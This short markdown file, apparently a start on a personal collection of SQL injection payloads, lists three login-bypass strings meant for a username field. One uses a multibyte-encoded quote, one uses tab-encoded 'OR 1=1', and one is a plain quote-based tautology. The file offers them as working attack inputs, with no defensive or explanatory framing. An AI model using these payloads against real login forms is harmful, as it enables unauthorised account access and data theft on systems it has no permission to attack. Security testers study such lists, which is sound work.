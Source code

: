 # This will be a collection of SQl Injection Payloads and where to put them.



username=%bf%27 or 1=1 #&password=
username='%09OR%091=1#&password=
'OR'1'='1'#
